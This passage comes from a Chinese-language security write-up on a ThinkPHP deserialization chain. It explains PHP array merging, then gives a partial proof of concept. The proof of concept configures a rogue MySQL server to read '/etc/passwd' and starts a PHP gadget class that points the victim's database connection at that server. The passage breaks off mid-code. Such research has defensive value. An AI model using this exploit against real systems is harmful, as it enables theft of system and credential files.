 **扩展**：使用 `+` 拼接数组，后面的数组不会覆盖前面的数组值。但是使用 `array_merge` 将会覆盖前面的值：

```
&lt;?php
$a = [
    'x' =&gt; 1
];
$b = [
    'x' =&gt; 2,
    'v' =&gt; 3
];
//使用 + 拼接数组
//$c['x'] 还是1
$c = $a+$b;
//使用 array_merge 拼接数组
//$d['x'] 被覆盖为2
$d = array_merge($a,$b);
?&gt;
```

根据上文的代码分析。我们可构建连接恶意Mysql数据库的配置。这里需要注意几点：
<li>
``PDO::MYSQL_ATTR_LOCAL_INFILE` 要设置为 **true**。不然PDO无法进行 `LOAD DATA LOCAL` 操作</li>
<li>
`PDO::ATTR_EMULATE_PREPARES` 也要设置为 **true**。不然`LOAD DATA LOCAL`会报错</li>
1. PDO连接恶意Mysql数据库**不需要**正确的用户名密码和库名。只要地址正确即可
初始化PDO连接后，`connect()` 将把PDO连接返回到 `query()`函数中，由这个函数执行 `PDOStatement execute()`



## 最终POC

搭建的恶意Mysql服务器选择 [Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)。可以通过编辑其 `rogue_mysql_server.py` 修改服务监听端口和被读取的文件：

```
PORT = 3306
.....
filelist = (
    '/etc/passwd',
)
```

修改POC，增加数据库配置：

```
&lt;?php

namespace think`{`
    abstract class Model`{`
        protected $append = [
            'save'
        ];
        protected $table = 'xxx';
        protected $query = '\think\db\Query';

        //buildQuery()中
        //为Db::connect()传入的数据库连接配置
        protected $connection = [
            // 数据库类型
            'type'            =&gt; 'mysql',
            // 服务器地址
            'hostname'        =&gt; '127.0.0.1',
            // 数据库名
            'database'        =&gt; 'xxx',
            // 用户名
            'username'        =&gt; 'xxx',
```